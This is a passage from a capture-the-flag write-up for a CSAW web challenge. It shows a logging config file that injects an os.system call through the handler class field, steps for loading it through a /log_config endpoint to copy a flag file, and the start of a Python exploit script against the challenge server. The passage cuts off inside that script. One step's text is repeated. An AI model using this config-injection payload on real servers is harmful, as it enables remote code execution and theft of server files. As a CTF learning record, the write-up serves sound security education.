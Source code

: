     [handlers]
    keys=consoleHandler
    
    [formatters]
    keys=simpleFormatter
    
    [logger_root]
    level=DEBUG
    handlers=consoleHandler
    
    [logger_simpleExample]
    level=DEBUG
    handlers=consoleHandler
    qualname=simpleExample
    propagate=0
    
    [handler_consoleHandler]
    class=__import__("os").system("cp ../flag.txt application/static/images/{{ loc }}")
    level=DEBUG
    formatter=simpleFormatter
    args=(sys.stdout,)
    
    [formatter_simpleFormatter]
    format=%(asctime)s - %(name)s - %(levelname)s - %(message)s
    ```
5. Use the log_config exploit we discovered earlier. Get the payload file’s path from /gallery and then use /log_config to set the logging config file used by the server to the payload. After this, the server will replace the dummy image we uploaded with the flag.
Finally, we use the /download_image endpoint and pass in the original location of our dummy image. The server will then give the flag to us.
6. Finally, we use the /download_image endpoint and pass in the original location of our dummy image. The server will then give the flag back to us.

Here is the code for the attack:
```python
import requests
import json
from jinja2 import Environment, FileSystemLoader
import time
 
api_url = "http://web.chal.csaw.io:5012/"
username = "<whatever you want>"
password = "<whatever you want>"
 
template_file = "template_file"
dummy_file = "dummy_file"
payload_file = "payload"
label_1 = "image1"
label_2 = "image2"
 
def register(username, password):
   url = api_url + "/api/register"
   payload = json.dumps({
      "username": username,
      "password": password
   })
   headers = {
       'Content-Type': 'application/json'
   }
   response = requests.request("POST", url, headers=headers, data=payload)
   return response
 
def login(username, password):
   url = api_url + "/api/login"
   payload = json.dumps({
       "username": username,
```